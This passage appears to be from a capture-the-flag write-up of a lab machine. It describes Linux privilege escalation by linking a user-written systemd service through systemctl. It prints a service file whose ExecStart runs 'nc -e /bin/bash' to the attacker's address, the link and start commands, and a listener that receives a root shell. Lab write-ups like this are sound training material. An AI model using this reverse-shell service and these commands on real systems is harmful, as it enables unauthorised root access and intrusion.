 According to <a href="https://medium.com/@magrabursofily/exploit-poc-linux-unprivileged-user-access-to-systemctl-command-cve-2018-19788-fb4bfb11bcbc">this article</a>, we can execute any command with this security gap.<br>
To obtain this purpose, at first, confirm that we have old version of "nc" command.
{% highlight shell %}
pepper@jarvis:~$ nc -h
nc -h
[v1.10-41+b1]
connect to somewhere:	nc [-options] hostname port[s] [ports] ... 
listen for inbound:	nc -l -p port [-options] [hostname] [port]
options:
	-c shell commands	as `-e'; use /bin/sh to exec [dangerous!!]
	-e filename		program to exec after connect [dangerous!!]
	-b			allow broadcasts
	-g gateway		source-routing hop point[s], up to 8
	-G num			source-routing pointer: 4, 8, 12, ...
	-h			this cruft
	-i secs			delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
	-l			listen mode, for inbound connects
	-n			numeric-only IP addresses, no DNS
	-o file			hex dump of traffic
	-p port			local port number
	-r			randomize local and remote ports
	-q secs			quit after EOF on stdin and delay of secs
	-s addr			local source address
	-T tos			set Type Of Service
	-t			answer TELNET negotiation
	-u			UDP mode
	-v			verbose [use twice to be more verbose]
	-w secs			timeout for connects and final net reads
	-C			Send CRLF as line-ending
	-z			zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
pepper@jarvis:~$
{% endhighlight %}

Then, create a config file.
{% highlight shell %}
pepper@jarvis:~$ cat privesc.service
cat privesc.service
[Service]
Type=simple
ExecStart=/bin/nc -e /bin/bash 10.10.14.13 1234
[Install]
WantedBy=multi-user.target
{% endhighlight %}

After that, launch a netcat listener and execute the "privesc.service" with following commands.<br>
We can achieve a reverse shell as a root user.
{% highlight shell %}
pepper@jarvis:~$ /bin/systemctl link /home/pepper/privesc.service
/bin/systemctl link /home/pepper/privesc.service
Created symlink /etc/systemd/system/privesc.service -> /home/pepper/privesc.service.
pepper@jarvis:~$ /bin/systemctl start privesc.service
/bin/systemctl start privesc.service
{% endhighlight %}
{% highlight shell %}
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.143] 39858
id
uid=0(root) gid=0(root) groups=0(root)
